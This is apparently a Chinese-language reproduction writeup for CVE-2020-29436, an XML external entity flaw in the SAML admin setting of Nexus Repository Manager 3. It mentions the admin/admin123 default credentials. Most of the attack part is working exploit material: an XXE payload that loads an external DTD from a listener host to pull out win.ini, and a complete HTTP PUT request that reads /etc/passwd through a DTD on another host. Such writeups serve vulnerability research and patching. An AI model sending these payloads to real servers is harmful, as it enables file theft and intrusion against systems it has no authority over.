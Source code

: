 # Nexus Repository Manager 3 XML外部实体注入(CVE-2020-29436)

在 Nexus Repository Manager 3中存在XML外部实体注入（ XXE ）漏洞。该漏洞使具有NXRM中管理帐户的攻击者能够以一种方式配置系统，使他们可以查看文件系统上的文件，并与NXRM可以访问的任何后端或外部系统进行交互。攻击者必须在Repository Manager实例中具有管理级别的用户帐户才能以这种方式配置系统。

Nexus Repository Manager3在较高的版本中也会强制更改以前较低版本使用的默认密码admin/admin123。

**漏洞复现**

来到后台Saml的功能点：

![](media/16096800702847/16096800807682.jpg)


看到这个大大的XML输入框就知道大概率是有XML操作的。

简单测试下能不能进行dtd请求，如果能的话很可能读取文件也可以：

![](media/16096800702847/16096800884159.jpg)


点击保存就能看到进行了请求。测试了下读文件，可以利用ftp、http等协议带出单行文件，看了下jdk版本在windows是使用的自带的8u252，@r00t4dm在mac上的安装包不会自带jdk，使用的是系统的，那么linux下也是系统的，所以试用的是较低版本的jdk，是可以带换行的。后面看了下返回包，居然把异常返回到了json，那么我们可以通过报错xml将任何文本字符带出了，包括\n、#、<等文本字符。

payload:


```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE ANY [
        <!ENTITY % file SYSTEM "file:///C:/Windows/win.ini">
        <!ENTITY % dtd SYSTEM "http://127.0.0.1:8000/my.dtd">
        %dtd;
        %send;
        ]>
<ANY>xxe</ANY>

dtd：
<!ENTITY % all
"<!ENTITY &#x25; send SYSTEM '%file;'>"
>
%all;
```

![](media/16096800702847/16096801029588.jpg)


漏洞分析：https://paper.seebug.org/1431/
来源：https://paper.seebug.org/1431/

ref：
https://s.tencent.com/research/bsafe/1201.html


```
PUT /service/rest/internal/ui/saml?_dc=1608107853558 HTTP/1.1
Host: r00t4dm.com:8081
Content-Length: 536
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
NX-ANTI-CSRF-TOKEN: 0.03162010377420388
Content-Type: application/json;charset=UTF-8
Origin: http://r00t4dm.com:8081
Referer: http://r00t4dm.com:8081/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: _ga=GA1.2.2078132679.1597230524; _rdt_uuid=1597230524157.df69997b-229f-41bf-9635-03b3f3f20329; context-profile-id=91ee4f3c-de97-4fa0-a514-22cd16f961ec; NX-ANTI-CSRF-TOKEN=0.03162010377420388; NXSESSIONID=971afe8d-2236-4629-a25d-44da86726602
Connection: close

{"idpMetadata":"<?xml version=\"1.0\" encoding=\"utf-8\"?>\n\n<!DOCTYPE ANY [\n        <!ENTITY % file SYSTEM \"file:///etc/passwd\">\n        <!ENTITY % dtd SYSTEM \"http://10.211.55.2:8000/filen.dtd\">\n        %dtd;\n        %send;\n        ]>\n<ANY>xxe</ANY>","entityIdUri":"http://r00t4dm.com:8081/service/rest/v1/security/saml/metadata}
```

https://forum.ywhack.com/thread-114837-1-2.html